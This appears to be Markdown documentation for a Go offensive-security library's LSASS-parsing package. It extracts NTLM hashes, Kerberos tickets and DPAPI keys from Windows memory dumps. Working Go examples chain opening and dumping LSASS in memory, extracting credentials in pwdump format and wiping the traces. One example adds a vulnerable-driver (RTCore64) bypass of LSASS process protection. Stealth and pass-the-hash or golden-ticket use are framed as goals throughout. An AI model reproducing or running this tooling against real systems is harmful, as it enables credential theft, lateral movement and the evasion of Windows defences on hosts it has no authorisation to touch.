

---
---

# LSASS Parsing — In-Process Credential Extraction

[← Credentials area README](README.md) · [docs/index](../../index.md)

**MITRE ATT&CK:** [T1003.001 — OS Credential Dumping: LSASS Memory](https://attack.mitre.org/techniques/T1003/001/)
**Package:** `credentials/sekurlsa`
**Platform:** Cross-platform (pure Go)
**Detection:** Low — runs entirely in the implant's own address space, no Win32 calls

---

## TL;DR

You have the LSASS minidump bytes (from
[`credentials/lsassdump`](lsassdump.md)) and want to extract
the credentials inside without round-tripping to mimikatz on
a different host. This package parses the dump in-process and
returns structured creds.

| You want… | Use | Returns |
|---|---|---|
| Everything the dump contains | [`Parse`](#parsedump-byte-result-error) | `Result{Logons, MasterKeys, Tickets, Warnings}` — full inventory |
| Just NTLM hashes for replay | `Result.Logons` filtered by `Provider == "msv1_0"` | NT hash + LM hash + DPAPI seed per logon |
| Kerberos tickets (TGT cache for golden-ticket research) | `Result.Tickets` | Per-session TGT/TGS with raw asn1 + decoded principal |
| DPAPI master keys (for offline blob decryption) | `Result.MasterKeys` | Per-user GUID + raw 64-byte key |

What this DOES achieve:

- Pure-Go MINIDUMP parser — no `dbghelp.dll`, no Win32 calls
  inside the implant address space.
- Cross-platform — runs on the analyst's Linux box if they
  exfil the dump.
- Structured `Result` with `Warnings []string` for partial
  parses (Credential Guard / LSAISO / unknown lsasrv build).

What this does NOT achieve:

- **Doesn't acquire the dump** — that's [`credentials/lsassdump`](lsassdump.md).
- **Doesn't bypass Credential Guard / LSAISO** — when `IsoUserMode`
  is enabled, the secrets-bearing region of LSASS is encrypted
  to the secure-world VTL1; the dump bytes for that region are
  zeros. `Result.Warnings` flags this.
- **No live-process attach** — input is a MINIDUMP byte buffer,
  not a live PID. To go live, dump first then parse.
- **lsasrv.dll structure offsets are version-keyed** — every
  LSASS build can shift the SECPKG_FUNCTION_TABLE / Logon /
  KIWI_BCRYPT_KEY layouts. Parser is best-effort + falls back
  to known-good signatures; very old or very new builds may
  partially miss.

---

## Primer

`credentials/lsassdump` (the **producer**, see
[lsass-dump.md](../collection/lsass-dump.md)) captures lsass.exe's
memory into a MINIDUMP blob. To use the blob the operator
historically had to round-trip it through mimikatz on a different
host or pypykatz on a Linux analyst box — which means exfil-ing a
50 MB+ file, leaving it on disk somewhere, and depending on a Python
runtime + 50 MB of crypto deps for the analyst.

`credentials/sekurlsa` is the **consumer** — pure-Go MINIDUMP
parsing + in-process credential extraction, so the implant pipeline
becomes:

```text
PROCESS_VM_READ → MINIDUMP bytes (in-memory) → MSV1_0 hashes (in-memory) → wipe
```

No disk artefact. No exfil. No external dependency.

v1 (v0.23.0) extracts MSV1_0 NTLM hashes — the dominant pivot for
pass-the-hash workflows. WDigest plaintext, Kerberos tickets, and
DPAPI master keys are scoped follow-ups on top of v1's LSA-key
extraction layer.

---

## How It Works



The crypto layer mirrors `BCryptKeyDataBlobImport`'s logic: parse a
12-byte `BCRYPT_KEY_DATA_BLOB_HEADER` (magic `KDBM`, version 1,
cbKeyData), then import the trailing payload into `crypto/aes` (16
bytes) or `crypto/des` (24 bytes). The IV is plain bytes, no header.

CBC decryption picks the cipher by ciphertext alignment: 16-aligned
goes through AES, 8-aligned-but-not-16 goes through 3DES. Same
heuristic pypykatz uses.

---

## Simple Example

```go
package main

import (
    "fmt"
    "log"

    "github.com/oioio-space/maldev/credentials/sekurlsa"
)

func main() {
    result, err := sekurlsa.ParseFile(`C:\ProgramData\Intel\snapshot.dmp`)
    if err != nil {
        log.Fatal(err)
    }
    defer result.Wipe()

    fmt.Printf("Build %d %s — %d sessions\n",
        result.BuildNumber, result.Architecture, len(result.Sessions))

    for _, s := range result.Sessions {
        for _, c := range s.Credentials {
            if msv, ok := c.(sekurlsa.MSV1_0Credential); ok && msv.Found {
                fmt.Println(msv.String()) // pwdump format
            }
        }
    }
}
```

`Result.Wipe` overwrites every hash buffer in place after the
caller's loop — pair with `cleanup/memory.SecureZero` on any other
slice you held the hash bytes in.

---

## Advanced — registering a custom Template

When the dump's `BuildNumber` doesn't match a registered template,
`Parse` returns `(partial Result, ErrUnsupportedBuild)`. The partial
result still carries `BuildNumber` + `Architecture` + `Modules` so
the operator can detect the gap, register a template, and retry:

```go
package main

import (
    "errors"
    "log"

    "github.com/oioio-space/maldev/credentials/sekurlsa"
)

func init() {
    // Win11 24H2 (build 26100) — patterns derived offline from the
    // Microsoft-shipped lsasrv.dll for this CU. See README.md for
    // the workflow.
    _ = sekurlsa.RegisterTemplate(&sekurlsa.Template{
        BuildMin:                26100,
        BuildMax:                26100,
        IVPattern:               []byte{ /* operator-derived bytes */ },
        IVOffset:                0x3F,
        Key3DESPattern:          []byte{ /* … */ },
        Key3DESOffset:           -0x59,
        KeyAESPattern:           []byte{ /* … */ },
        KeyAESOffset:            0x10,
        LogonSessionListPattern: []byte{ /* … */ },
        LogonSessionListOffset:  0x17,
        LogonSessionListCount:   64,
        MSVLayout: sekurlsa.MSVLayout{
            NodeSize:          0x110,
            LUIDOffset:        0x10,
            UserNameOffset:    0x90,
            LogonDomainOffset: 0xA0,
            LogonServerOffset: 0xB0,
            LogonTypeOffset:   0xC8,
            CredentialsOffset: 0xD8,
        },
    })
}

func main() {
    result, err := sekurlsa.ParseFile("snapshot.dmp")
    switch {
    case errors.Is(err, sekurlsa.ErrUnsupportedBuild):
        log.Fatalf("build %d not covered; register a template", result.BuildNumber)
    case errors.Is(err, sekurlsa.ErrLSASRVNotFound):
        log.Fatal("dump missing lsasrv.dll module — wrong process?")
    case err != nil:
        log.Fatal(err)
    }
    defer result.Wipe()
    log.Printf("extracted %d sessions on build %d", len(result.Sessions), result.BuildNumber)
}
```

---

## Composed — Producer + Consumer in one process

The point of a pure-Go consumer: dump → extract → wipe without ever
touching disk or shipping a second binary to the operator.

```go
package main

import (
    "bytes"
    "fmt"
    "log"

    "github.com/oioio-space/maldev/credentials/sekurlsa"
    "github.com/oioio-space/maldev/credentials/lsassdump"
    "github.com/oioio-space/maldev/cleanup/memory"
)

func main() {
    // 1. Open lsass.
    h, err := lsassdump.OpenLSASS(nil) // nil = standard WinAPI; pass a *wsyscall.Caller for stealthier syscalls
    if err != nil {
        log.Fatal(err)
    }
    defer lsassdump.CloseLSASS(h)

    // 2. Dump into an in-memory buffer.
    var buf bytes.Buffer
    if _, err := lsassdump.Dump(h, &buf, nil); err != nil {
        log.Fatal(err)
    }

    // 3. Parse the bytes still in memory.
    result, err := sekurlsa.Parse(bytes.NewReader(buf.Bytes()), int64(buf.Len()))
    if err != nil {
        log.Fatal(err)
    }
    defer result.Wipe()

    // 4. Use the credentials.
    for _, s := range result.Sessions {
        for _, c := range s.Credentials {
            if msv, ok := c.(sekurlsa.MSV1_0Credential); ok && msv.Found {
                fmt.Println(msv.String())
            }
        }
    }

    // 5. Wipe the dump bytes from the Go heap.
    memory.SecureZero(buf.Bytes())
}
```

Layered with PPL bypass via BYOVD when the lsass process is
RunAsPPL=1:

```go
import (
    "github.com/oioio-space/maldev/credentials/lsassdump"
    "github.com/oioio-space/maldev/credentials/sekurlsa"
    "github.com/oioio-space/maldev/kernel/driver/rtcore64"
)

// 1. Bring up RTCore64 driver.
var d rtcore64.Driver
if err := d.Install(); err != nil { panic(err) }
defer d.Uninstall()

// 2. EPROCESS unprotect lsass — caller resolves the EPROCESS via
//    an upstream walk (see lsass-dump.md).
tok, _ := lsassdump.Unprotect(&d, lsassEProcess, lsassdump.PPLOffsetTable{
    Build: 19045, ProtectionOffset: 0x87A,
})
defer lsassdump.Reprotect(tok, &d)

// 3. Open + Dump + Parse — same as above. With PS_PROTECTION zeroed,
//    the userland NtOpenProcess(VM_READ) succeeds.
```

---

## Limitations

- **Templates required.** v1 ships the framework; per-build templates
  ship under any license as community contributions verified against
  real dumps. The `RegisterTemplate(t)` opt-in lets operators ship
  their own without forking.
- **MSV1_0 only.** WDigest, Kerberos, DPAPI, LiveSSP / TSPkg / CloudAP
  are each their own follow-up chantier on top of v1's crypto layer.
- **x64 only.** WoW64 32-bit dumps are vanishingly rare on modern
  Windows and not in v1 scope.
- **Credential Guard / LSAISO sessions** appear in the list but the
  payloads are kernel-isolated ciphertext — surfaced as
  `Result.Warnings`, not fatal errors.
- **No live-process attach.** A `mimikatz!sekurlsa`-style direct
  attach to lsass is a separate chantier (`credentials/lsalive`)
  that needs PPL bypass + much louder OPSEC. The dump-then-parse
  pipeline gives most of the value with a fraction of the noise.
- **`.kirbi` export composes via `stealthopen.Creator`.**
  `(*KerberosTicket).ToKirbiFile(dir)` lands the file via plain
  `os.Create`; pair with
  [`ToKirbiFileVia(creator, dir)`](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/sekurlsa#KerberosTicket.ToKirbiFileVia)
  to route the write through the operator's primitive
  (transactional NTFS, encrypted-stream wrapper, ADS, raw
  `NtCreateFile`). Same `[]byte` content; same filename.

---

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/credentials/sekurlsa`](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/sekurlsa) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## See also

- [Credentials area README](README.md)
- [`credentials/lsassdump`](lsassdump.md) — producer counterpart (dump LSASS so this parser has bytes to chew)
- [`credentials/goldenticket`](goldenticket.md) — feed the extracted krbtgt hash directly into Forge
